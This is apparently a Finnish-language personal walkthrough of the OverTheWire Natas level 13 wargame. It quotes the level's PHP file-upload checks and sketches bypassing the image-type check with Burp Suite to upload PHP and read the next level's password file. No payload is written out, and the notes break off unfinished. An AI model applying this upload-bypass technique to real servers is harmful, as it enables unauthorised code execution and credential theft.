https://medium.com/@enesaladag/overthewires-natas12-3c6e7ce72900 <br>

**Mini yhteenveto**: 
perus vaikeammaksi menee sitä mennään, mutta alku on perus se ei tiedetä miten se menekään ja siitä vähitelen ymmärtää. 

---

# Level 13 - START HERE

Kuulemma tai jotakin netistä löytyi tämä on samankaltainen steppi kuin **Level 12**.

Melkein sama kuin Level 12 - mutta voi olla vähä vaikeampi, mutta ainakin Level 12:ssa tapahtui polkujen etsiminen eli */etc/natas_webpass/natas13* 

Koodin pätkäst ainakin huomattuna että se ymmärtää tiedoston upottamisessa onko se kuva vai ei, eli tiedoston tunnistaminen. Jos alataus epäonnistuu, niin käytetään `exif_imagetype()`-funktiota, joka tarkistaa tiedoston tyypin.

```
if($err){
    if($err === 2){
        echo "The uploaded file exceeds MAX_FILE_SIZE";
    } else{
        echo "Something went wrong :/";
    }
} else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
    echo "File is too big";
} else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
}
```

    - Periaatteessa sama idea kuin aikaisempi, josta laittaa PHP-koodipätkän ja muutta kuvatiedoston (JPEG, PNG, JPG, jne). Kuitenkin hylättään muita tiedostoja jos ei ole kuvatiedosto tyyppinen.


```
function makeRandomPath($dir, $ext) {
    do {
        $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```
Tässä funktiossa luodaan satunnainen tiedostonnimi, joka varmistaa ettei tule saman nimistä tiedostoa ellei ole jo olemassa.

🎯 **Seuraavaksi**:
- Rajoituksia, eli PHP koodi tarkituksena tiedostonkoo (1KB) ja sallittu vain kuva tiedostontyyppille
- Hyökkäysstrategia ja harjoituksena, että asettaa PHP-skriptin kuvan alle ja se latautuu sinne palvelimelle.
- Jos lataus onnistuu ja käytä URL-osoitetta, jotta päästään käsiksi seuraavaan Levelin salasansa sisältävään tiedostoon.

## Level 13 - 1 selvittämistä






Kokeilin jopa upottaa jotakin kuvaa, et ainakin näytti toimivana et se menee yli 1KB ja on se vaikea etsiä jokin kuva on alle sen kokoinen tiedosto, ehkä parhaimmissaan menee ehdottamasti joku koodi pätkä ja sillä perään satunnainen kuva tiedostotyyppi mm. jpg, png, jne.



Voi olla tässä harjoituksessa eli level 13:ssa jouduttaan käyttää toisen kerran **Burp Suite** ohjelmansa kertaalleen, koska se on tosi hyvä ja seuraa tämän kyseisen sivustoa ja muuttaakseen HTTP:ksi. Lisäksi voi suorittaa *Forward*:in mikä kuin lähettää HTTP pyynnön palvelimelle ja suorittaa tehdyn muutoksensa. 

**Tässä välissä on jotakin error, mitkä ei toimi**
Pari - muutamia testejä ainakin ainakin screenshot ja hyvä harjoituksen kannalta. Tässä väli steppissä mentäisi kuin aikaisempi **level 12**, mutta meneekö lävitse. Voi olla ettei mene, kun tämä on vaikeampi taso. Tätä testataan UI nettisivuston kautta, ja erikseen kun toimii niin sitten lisätää Kali linxu versio.








Tähän asti kuitenkin miltä se näytti, mutta ainakin **Burp Suite** ohjelman alla näkee sen skriptin sisällön.


## Level 13 - 2 real one

Yllättyksenä tähän ainakin sen pitää olla **virallinen kuva tyyppi** eikä mitään koodipätkiä ja tiedosto tyyppi on esim. jpg. Pari muutamia testiä testattuna leikkisti PHP hello world koodi ja _png_ tiedostona niin se ainakin tunnisti.

Nyt upotin ainakin virallisen satunnaisen kuvan mikä löytyy esim. kuvahaku tai aikaisempi ladattu kuva versio. Ei ole pakko olla _auringonlasku_ mutta yksi pieni suosikki.


